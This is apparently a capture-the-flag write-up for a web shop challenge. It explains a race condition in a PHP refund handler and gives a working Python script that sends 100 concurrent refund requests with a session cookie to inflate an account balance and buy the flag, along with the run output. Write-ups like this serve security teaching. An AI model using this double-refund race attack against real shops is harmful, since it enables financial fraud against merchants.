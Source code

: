 **Author: Zukane**

*We always aim to make things bigger and better! Our shop now boasts more items than ever before and has scaled up to support way more users than previous years with a blazingly fast frontend!*

##### Challenge overview

In this web challenge, we are given the website's source code and a URL to connect to.

On the site, we can register a user and login. We are met with a web-shop where we can buy sick stuff, such as the EPT Fan or a new laptop. Unfortunately, we only have a balance of $100.00. The only item in the store we can afford is the Race Car costing $99.99. We can buy an item, and we can refund it if we have changed our mind. 

Based on the item's name being `Race Car`, and the fact that we can manipulate our balance, I was inclined to believe that this is a race-condition challenge where we have to inflate our balance.

Analysing the source code, we can see where the refund request is handled:

```php
if (isset($user_items[$item_id]) && $user_items[$item_id] > 0) {
	if (updateUserbalance($user['id'], $item['price'])) {
		if (removeUserItem($user['id'], $item_id)) {
			$messages[] = [
				"category" => "success",
				"message" => "Item refunded successfully!"
			];
			$user = getCurrentUser();
			$user_items = getItemsByUserId($user['id']);
		} else {
			$messages[] = [
				"category" => "danger",
				"message" => "Error removing item from user inventory."
			];
			updateUserbalance($user['id'], -$item['price']);
		}
	} else {
		$messages[] = [
			"category" => "danger",
			"message" => "Error updating user balance."
		];
	}
```

The script checks if the user owns the item, then it updated the balance, and if successful, it will remove the item from the inventory. This means there is a window of opportunity where multiple requests can pass the if-check before the item is removed, inflating our balance. The script tries to update our balance again if the item removal fails, but it evidently does not work.

##### Solution

We can use our session token (taken from an intercepted burpsuite request) and a python script to send many requests on our behalf. The script below will buy and refund until we have a balance of at least 2500, then it will buy the flag and print the order description.

```python
import requests, threading, time
from bs4 import BeautifulSoup

url = 'https://munintrollet-ca16-shop-4.ept.gg'
headers = {"Cookie": "session_token=51234d225f609543cc73016ae801512f9b15bf7cb2b016393eea7541585e6cd2"}

import requests, threading, time
from bs4 import BeautifulSoup

def post_action(action, item_id="1"):
    data = {"item_id": item_id, "action": action}
    requests.post(url, headers=headers, data=data)

def get_balance():
    r = requests.get(url, headers=headers)
    soup = BeautifulSoup(r.text, 'html.parser')
    balance_text = soup.find('h5', class_='card-title mb-0').text.strip().replace('$', '').replace(',', '')
    return float(balance_text)

def get_flag():
    r = requests.get(url + "/orders", headers=headers)
    soup = BeautifulSoup(r.text, 'html.parser')
    for note in soup.find_all('td'):
        if 'EPT{' in note.text:
            print('Flag found:', note.text.strip())
            return

print("Buying 'Race Car' item...")
post_action("buy")
time.sleep(1)

while (balance := get_balance()) < 2500:
    print(f"Balance: ${balance:.2f}. Performing concurrent refunds...")
    threads = [threading.Thread(target=post_action, args=("refund",)) for _ in range(100)]
    for t in threads: t.start()
    for t in threads: t.join()
    if balance < 2500:
        post_action("buy")
        time.sleep(1)

print("Balance reached $2500. Buying 'EPT Fan' item...")
post_action("buy", item_id="2")
time.sleep(1)

print("Retrieving the flag...")
get_flag()
```

Running the script gives us the flag:

```
└─$ python3 solve.py
Buying 'Race Car' item...
Balance: $0.01. Performing concurrent refunds...
Balance: $299.98. Performing concurrent refunds...
Balance: $599.95. Performing concurrent refunds...
Balance: $699.94. Performing concurrent refunds...
Balance: $899.92. Performing concurrent refunds...
Balance: $1999.81. Performing concurrent refunds...
Balance: $2299.78. Performing concurrent refunds...
Balance: $2499.76. Performing concurrent refunds...
Balance reached $2500. Buying 'EPT Fan' item...
Retrieving the flag...
Flag found: Come over to the admin booth and claim your very own EPT Fan for you and your team! EPT{th0s3_f4ns_g0_brrrr}
```

`EPT{th0s3_f4ns_g0_brrrr}`